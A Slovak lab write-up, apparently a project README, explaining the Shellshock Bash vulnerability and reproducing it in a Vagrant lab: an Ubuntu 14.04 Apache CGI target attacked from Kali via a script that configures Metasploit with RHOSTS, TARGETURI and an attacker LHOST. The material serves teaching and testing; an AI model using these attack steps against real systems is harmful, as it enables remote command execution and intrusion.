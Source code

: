 # Otestovanie zraniteľnosti Shellshock na Ubuntu 14.04

CVE-2014-6271, známe aj ako „Shellshock“, bolo objavené v septembri 2014 bezpečnostným výskumníkom Stéphane Chazelasom. 
Využíva chybu v príkazovom interpretery Bash od verzie 1.14 po 4.3. Zraniteľné boli všetky zariadenia, 
ktoré ho používali. Vzdialenému útoku boli však vystavení iba používatelia, ktorí boli pripojení na internet. Okrem 
toho je potrebný určitý softvér, ktorý poskytuje cestu, cez ktorú sa útočník môže dostať k príkazovému interpreteru 
Bash, napríklad pri webovom serveri Apache je to CGI, ktorý slúži na interakciu s jeho programami. Experti 
vypočítali, že „Shellshock“ sa týkal vyše 500 miliónov zariadení.

Zraniteľnosť vzniká kvôli chybe v spracovaní premenných prostredia v príkazovom interpretery Bash, najmä definície 
funkcií. Toto sa dá zneužiť na vykonanie ľubovoľného kódu, získanie neoprávneného prístupu k systému, poprípade 
vykonanie rôznych útokov, ako napríklad DoS, Code Injection alebo Remote Command Execution.

## Konfigurácia Ubuntu

Pre otestovanie sme si stiahli verziu webového servera Apache verzie 2.4.7 a overili verziu príkazového interpreteru 
Bash, ktorá bola verzie 4.3.8. Následne sme si vytvorili a vložili na server CGI skript, konkrétne `hw.sh`. V súbore 
VAGRANT sme si nastavili adresu IP, na ktorú budeme útočiť: `192.168.50.20`.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor HACK na plochu distribúcie. Otvoríme si terminál a útok spustíme pomocou príkazu: 

```shell
./Desktop/HACK.sh
```

HACK.sh nám otvorí nástroj msfconsole pomocou súboru `set-msfconsole.rc` a nastaví tam IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.20` a cestu `set TARGETURI /cgi-bin/hw.sh`, čo nám nastaví cestu k skriptu CGI. 
Ostáva nám nastaviť IP útočníka `set LHOSt 192.168.50.21` a spustiť útok.
